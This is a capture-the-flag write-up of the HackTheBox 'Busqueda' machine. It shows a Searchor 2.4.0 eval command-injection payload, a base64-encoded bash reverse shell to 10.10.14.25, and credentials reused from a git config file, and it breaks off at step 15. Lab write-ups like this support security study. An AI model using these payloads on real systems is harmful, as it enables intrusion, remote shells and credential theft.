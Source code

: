 # Busqueda
## STEPS:

> PORT SCANNING

```
┌──(brandy㉿bread-yolk)-[~]
└─$ nmap -p- -sVC 10.10.11.208 --min-rate 1000 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-24 06:54 PDT
Nmap scan report for 10.10.11.208
Host is up (0.022s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 4fe3a667a227f9118dc30ed773a02c28 (ECDSA)
|_  256 816e78766b8aea7d1babd436b7f8ecc4 (ED25519)
80/tcp open  http    Apache httpd 2.4.52
|_http-title: Did not follow redirect to http://searcher.htb/
|_http-server-header: Apache/2.4.52 (Ubuntu)
Service Info: Host: searcher.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.75 seconds
```

1. Based from the result, we know the host is running a web application in Apache version 2.4.52.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/526c63f9-847f-47ed-bd77-601505d93479)


2. Looking at the footer, we know the webapp using Flask and searchor version 2.4.0 (which is outdated) and there are many documentation out there.
3. Telling that this version is vulnerable to **command injection**.

> Documenations

```
https://github.com/nexis-nexis/Searchor-2.4.0-POC-Exploit-
https://github.com/nikn0laty/Exploit-for-Searchor-2.4.0-Arbitrary-CMD-Injection
```

4. Reading one of the github, it seems the vuln is at:

> The blocked

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/1a5046fd-3c43-4817-9098-589e27c710e5)


5. There's a eval usage, which allows us to inject bash command. But we can't just send --> `__import__('os').system('id')`, after tested the feature in normal way, seems we need to add `'` and wrap the python code with `str()`.

> TESTING NORMAL WAY

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/677c944e-abcb-4b1a-ae32-60ecc1d11f0c)


![image](https://github.com/jon-brandy/hackthebox/assets/70703371/651bc11c-53be-4a88-b50d-367ad49224d4)


> OUR PAYLOAD

```py
') + str(__import__('os').system('id')) #
```

6. What it will look like:

```py
url = eval(Engine.<some_engine>.search('') + str(__import__('os').system('id')) #', copy_url={copy}, open_web={open})")
```

> RESULT

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/60c5b8bd-f160-4eb2-a9b9-b206961c9dc4)

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/322d7a72-6ea5-414e-97de-030dedb402e3)


7. Long story short, I got the user.txt inside the /home/svc directory.

```
') + str(__import__('os').system('cd .. && cd .. && cd .. && cd home && cd svc && cat user.txt && ls -a')) #
```

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/ce1079fb-52db-4f00-a420-1661b7804100)


## USER FLAG

```
d8ad3edaacebd00c00e4b7c6fbdfbb77
```


8. To get the root flag, we need to do reverse shell first. I used this bash script template:

```sh
bash -i >& /dev/tcp/10.10.14.25/1337 0>&1
```

9. So our payload shall look like this:

```py
') + str(__import__('os').system('echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4yNS8xMzM3IDA+JjE=|base64 -d|bash')) #
```

10. Now set a listener at port 1337 and send the payload.

> RESULT - GOT SHELL

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/ca6c8071-116a-4c3e-88e0-6cf31dc86e88)


11. Well, when traversing to find the user.txt before, I found a .git directory which has a cred at the config file. Also it referencing to gitea.searcher.htb site.

```
svc@busqueda:/var/www/app/.git$ cat config
cat config
[core]
        repositoryformatversion = 0
        filemode = true
        bare = false
        logallrefupdates = true
[remote "origin"]
        url = http://cody:jh1usoih2bkjaspwe92@gitea.searcher.htb/cody/Searcher_site.git
        fetch = +refs/heads/*:refs/remotes/origin/*
[branch "main"]
        remote = origin
        merge = refs/heads/main
svc@busqueda:/var/www/app/.git$ 
```

> gitea.searcher.htb -> use -> cody:jh1usoih2bkjaspwe92

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/1871d832-3231-4080-8722-511ebd99bed1)



#### NOTES:

```
In short about Gitea:
-> Similar to GitHub or GitLab but more lightweight, easy to install, and consume fewer system resources.
```


12. Nothing interesting here. Anyway i tried to run `sudo -l` to see the sudo permissions for user svc, but resulting to this:

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/f7be4e1d-0be1-42ac-8501-5dc4458848c6)


13. To solve this, we need to do login ssh using this cred --> `svc:jh1usoih2bkjaspwe92`.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/d4cb6819-21de-4b38-98b2-46a98be39809)


14. `/usr/bin/python3 /opt/scripts/system-checkup.py` can be our interest now.
15. 





